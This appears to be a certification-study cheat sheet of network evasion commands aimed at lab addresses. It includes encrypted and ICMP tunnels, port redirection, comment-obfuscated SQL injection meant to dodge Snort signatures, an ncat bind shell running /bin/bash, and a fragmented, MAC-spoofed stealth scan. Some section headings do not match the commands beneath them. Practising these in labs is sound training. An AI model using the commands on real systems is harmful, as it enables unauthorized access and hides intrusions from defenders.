 ### Protocol-Level Evasion

```

# HTTP/S Traffic Obfuscation

cryptcat -k "CEH2023" -l -p 4444  # Encrypted tunnel

socat TCP4-LISTEN:443,fork,reuseaddr TCP4:10.10.10.10:80  # Port redirection

  

# ICMP Covert Channel

ptunnel -p 10.10.10.10 -lp 1080 -da 192.168.1.100 -dp 22  # SSH over ICMP

```

### IDS Signature Evasion

```

# Snort Rule Evasion

curl http://10.10.10.10 --data "var=SELECT/*random_text*/password/*more_text*/FROM users"  # SQLi obfuscation

  

# Unicode Evasion

ncat -lvp 4444 -e /bin/bash --allow 10.10.10.10 --ssl  # SSL-wrapped shell

```

###  Real-World Exam Lab

```

# Task: Evade detection while scanning Windows target

nmap -sS -T2 -f --data-length 24 --ttl 64 --spoof-mac Cisco 10.10.10.10 -p 80,443,445 -oN stealth_scan.txt

  

# Expected Output:

# "Host appears to be up" without triggering alerts

```

# Run these until automatic:
